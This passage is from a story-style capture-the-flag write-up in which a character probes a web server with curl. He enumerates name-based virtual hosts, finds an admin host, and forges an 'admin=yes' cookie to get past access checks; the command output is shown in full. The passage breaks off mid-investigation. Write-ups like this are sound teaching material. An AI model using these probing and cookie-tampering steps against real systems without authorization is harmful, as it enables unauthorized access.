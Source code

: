 What else might hide this machine's true purpose in life? Port knocking? Even Jobert wasn't *that* evil.
Virtual hosts! Name-based virtual hosts! He had thought it suspect that only an IP address was given.
It was time to probe some more.

```
▶ curl -s http://104.236.20.43 -H'Host: acme.org'

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <!--
      Modified from the Debian original for Ubuntu
...
```

The default page. He tried again:

```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org'
▶ 
```

Ah hah! An empty response! He added the `-i` flag to see the headers:

```
▶ curl -is http://104.236.20.43 -H'Host: admin.acme.org'
HTTP/1.1 200 OK
Date: Tue, 14 Nov 2017 14:57:35 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: admin=no
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Interesting! That cookie was an obvious thing to play with:

```
▶ curl -is http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes'
HTTP/1.1 405 Method Not Allowed
Date: Tue, 14 Nov 2017 14:59:25 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Method Not Allowed? He tried a `POST`:

```
▶ curl -is http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -d'{}'
HTTP/1.1 406 Not Acceptable
Date: Tue, 14 Nov 2017 14:59:39 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
